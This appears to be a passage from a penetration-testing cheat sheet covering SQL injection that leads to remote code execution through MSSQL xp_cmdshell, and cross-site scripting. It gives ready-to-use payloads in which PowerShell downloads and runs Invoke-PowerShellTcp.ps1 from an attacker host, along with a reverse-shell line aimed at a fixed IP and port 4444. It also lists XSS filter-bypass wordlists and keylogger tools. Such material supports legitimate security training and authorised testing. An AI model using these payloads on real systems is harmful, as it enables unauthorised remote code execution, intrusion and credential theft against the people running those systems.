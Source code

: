 -> RCE
```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--
```
- https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Abuse MSSQL
-> edit Invoke-PowerShellTcp.ps1, adding this:  
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
```bash
impacket-mssqlclient <user>@<ip> -db <database>
```
```
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<IP>/Invoke-PowerShellTcp.ps1\")
```
- https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Cross-Site Scripting
1-> Identify the language and frameworks used  
2-> Identify entry points (parameters, inputs, responses reflecting values you can control, etc)   
3-> Check how this is reflected in the response via source code preview or browser developer tools  
4-> Check the allowed special characters  
```
< > ' " { } ;
```
5-> Detect if there are filters or blockages and modify as needed to make it work

### Wordlists for XSS Bypass
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/xss_bypass.txt
- https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt
- https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Auditor and XSS Filter
- https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md  
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html  
- https://www.chromium.org/developers/design-documents/xss-auditor/  
- https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge  
- https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection  

### XSS Keylogger
- https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/
- https://github.com/hadynz/xss-keylogger
